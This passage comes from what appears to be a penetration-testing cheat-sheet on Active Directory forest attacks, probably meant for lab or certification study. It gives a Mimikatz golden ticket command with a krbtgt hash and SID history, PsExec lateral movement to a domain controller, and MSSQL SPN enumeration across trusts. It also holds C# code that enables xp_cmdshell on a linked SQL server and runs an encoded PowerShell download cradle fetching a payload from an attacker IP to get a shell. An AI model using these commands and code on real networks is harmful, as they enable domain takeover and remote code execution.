    kerberos::golden /user:h4x /domain:corp1.com /sid:S-1-5-21-1587569303-1110564223-1586047116 /krbtgt:6b1bca4a1f7dbd67e28d3491290e4cb3 /sids:S-1-5-21-3759240818-3619593844-2110795065-1106 /ptt
    # Laterally move to dc01
    c:\tools\SysinternalsSuite\PsExec.exe \\dc01.corp2.com cmd
    ```

</details>

<details>

<summary>Linked SQL Servers in Forest</summary>

## Enumeration

```powershell
# Enumeration for any registered SPNs for MSSQL in prod.corp1.com
setspn -T prod -Q MSSQLSvc/*
# Enumeration of registered SPNs across domain trust
setspn -T corp1 -Q MSSQLSvc/*
setspn -T corp2.com -Q MSSQLSvc/*
```

## Exploiting

*   Login to the rdc01.corp1.com mssql server

    <figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>


*   Enumeration for [linked sql servers](../services/1433-mssql.md#linked-sql-servers)

    <figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>


* Obtaining Reverse shell from dc01.corp2.com
  * ```csharp
    String enable_xpcmd = "EXEC ('sp_configure ''show advanced options'', 1; reconfigure; EXEC sp_configure ''xp_cmdshell'', 1; reconfigure;') AT \"dc01.corp2.com\";";
    SqlCommand command = new SqlCommand(enable_xpcmd, con);
    command.ExecuteNonQuery();
    Console.WriteLine("[+] Enabled xp_cmdshell on DC01");

    String powershellCommand = "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.222/runall.ps1')";
    String b64Command = Convert.ToBase64String(Encoding.Unicode.GetBytes(powershellCommand));

    String execCmd = $"EXEC ('EXEC xp_cmdshell ''powershell -EncodedCommand {b64Command}''') AT \"dc01.corp2.com\";";
    Console.WriteLine("[+] Executing payload on DC01: " + execCmd);

    command = new SqlCommand(execCmd, con);
    command.ExecuteNonQuery();

    Console.WriteLine("[+] Command executed successfully on DC01.");

    ```

</details>
